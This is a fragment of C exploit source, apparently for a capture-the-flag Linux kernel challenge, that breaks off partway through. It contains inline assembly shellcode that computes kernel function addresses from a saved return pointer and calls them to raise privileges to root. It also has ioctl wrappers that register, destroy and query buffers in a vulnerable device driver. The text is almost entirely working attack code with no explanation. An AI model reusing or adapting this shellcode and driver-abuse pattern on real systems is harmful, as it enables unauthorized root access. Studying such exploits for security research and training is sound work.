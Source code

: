 ```exploit.c

static void shellcode(void){
  asm(
    "xor rdi, rdi\n"
    "mov rbx, QWORD PTR [rsp+0x50]\n"
    "sub rbx, 0x244566\n"
    "mov rcx, rbx\n"
    "call rcx\n"
    "mov rdi, rax\n"
    "sub rbx, 0x470\n"
    "call rbx\n"
    "add rsp, 0x20\n"
    "pop rbx\n"
    "pop r12\n"
    "pop r13\n"
    "pop r14\n"
    "pop r15\n"
    "pop rbp\n"
    "ret\n"
  );
}
// (END utils)

/*** GLOBALS *****/
void *mmap_addr;
int fd;
char inbuf[PAGE];
char outbuf[PAGE];
/********************/

#define PP_REGISTER 0x20
#define PP_DESTROY 0x40
#define PP_ASK 0x10

struct query{
  char *buf;
  char *result;
};

void _register(int fd, char *buf){
  printf("[.] register: %d %p(%s)\n", fd, buf, buf);
  struct query q = {
      .buf = buf};
  int ret = ioctl(fd, PP_REGISTER, &q);
  printf("[reg] %d\n", ret);
}

void _destroy(int fd, char *buf){
  printf("[.] destroy: %d %p(%s)\n", fd, buf, buf);
  struct query q = {
      .buf = buf
  };
  int ret = ioctl(fd, PP_DESTROY, &q);
  printf("[des] %d\n", ret);
}

void _ask(int fd, char *buf, char *obuf){
  printf("[.] ask: %d %p %p\n", fd, buf, obuf);
  struct query q = {
      .buf = buf,
      .result = obuf
  };
  int ret = ioctl(fd, PP_ASK, &q);
```